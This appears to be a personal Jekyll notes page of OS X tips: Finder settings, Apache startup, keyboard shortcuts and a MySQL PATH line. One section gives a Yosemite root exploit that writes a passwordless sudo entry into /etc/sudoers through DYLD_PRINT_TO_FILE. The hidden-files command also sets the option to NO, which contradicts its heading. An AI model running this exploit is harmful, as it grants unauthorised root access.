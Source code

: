 ```yaml
---
layout: default
title: OS X
---
```


## Always show hidden files: ##

{% highlight bash %}
defaults write com.apple.finder AppleShowAllFiles NO
{% endhighlight %}

## Start Apache on system startup: ##

{% highlight bash %}
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
{% endhighlight %}

## Keyboard shortcuts: ##

{% highlight bash %}
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
{% endhighlight %}

## Yosemite exploit for root access: ##

{% highlight bash %}
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
{% endhighlight %}

## Add mysql to terminal shell: ##

{% highlight bash %}
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
{% endhighlight %}
